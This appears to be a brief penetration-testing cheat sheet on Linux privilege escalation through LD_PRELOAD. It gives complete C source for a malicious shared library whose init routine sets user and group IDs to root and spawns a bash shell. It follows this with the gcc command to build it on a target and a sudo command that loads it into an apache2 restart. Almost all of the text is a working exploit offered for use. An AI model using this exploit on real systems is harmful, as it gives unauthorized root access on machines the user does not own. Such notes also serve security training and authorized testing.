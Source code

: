 ### LD_PRELOAD
```
ldd /bin/ls
```

### Shared Library compile exploit
Step 1: Create .so file from .c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Step 2: Compile .so file on target if possible
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
STep 3: Execute LD_PRELOAD exploit
```
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
